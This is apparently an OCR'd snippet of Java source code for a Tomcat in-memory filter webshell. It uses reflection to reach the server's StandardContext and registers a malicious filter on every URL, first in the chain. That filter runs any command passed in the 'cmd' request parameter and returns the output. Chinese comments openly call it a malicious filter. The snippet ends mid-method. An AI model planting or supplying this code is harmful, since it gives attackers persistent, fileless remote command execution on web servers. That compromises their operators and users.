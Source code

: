 ```
    ServletContext servletContext = request.getSession().getServletContext();

    Field appctx = servletContext.getClass().getDeclaredField("context");
    appctx.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);

    Field stdctx = applicationContext.getClass().getDeclaredField("context");
    stdctx.setAccessible(true);
    StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);

    Field Configs = standardContext.getClass().getDeclaredField("filterConfigs");
    Configs.setAccessible(true);
    Map filterConfigs = (Map) Configs.get(standardContext);

    if (filterConfigs.get(name) == null){
        Filter filter = new Filter() {
            @Override
            public void init(FilterConfig filterConfig) throws ServletException {

            }

            @Override
            public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
                if(servletRequest.getParameter("cmd")!=null) {
                    Process cmd = Runtime.getRuntime().exec(servletRequest.getParameter("cmd"));
                    InputStream inputStream = cmd.getInputStream();
                    InputStreamReader inputStreamReader = new InputStreamReader(inputStream);
                    BufferedReader bufferedReader = new BufferedReader(inputStreamReader);
                    String line;
                    while ((line = bufferedReader.readLine()) != null) {
                        servletResponse.getWriter().println(line);
                    }
                }
                filterChain.doFilter(servletRequest,servletResponse);
            }

            @Override
            public void destroy() {

            }

        };


        FilterDef filterDef = new FilterDef();
        filterDef.setFilter(filter);
        filterDef.setFilterName(name);
        filterDef.setFilterClass(filter.getClass().getName());
        /**
         * 将filterDef添加到filterDefs中
         */
        standardContext.addFilterDef(filterDef);

        FilterMap filterMap = new FilterMap();
        filterMap.addURLPattern("/*");
        filterMap.setFilterName(name);
        filterMap.setDispatcher(DispatcherType.REQUEST.name());	//可以不要
        /**
         * 将filtermap添加到filtermaps最前面，这样最终我们的恶意filter就在chain的最前面，可以不受其他filter影响
         */
        standardContext.addFilterMapBefore(filterMap);

```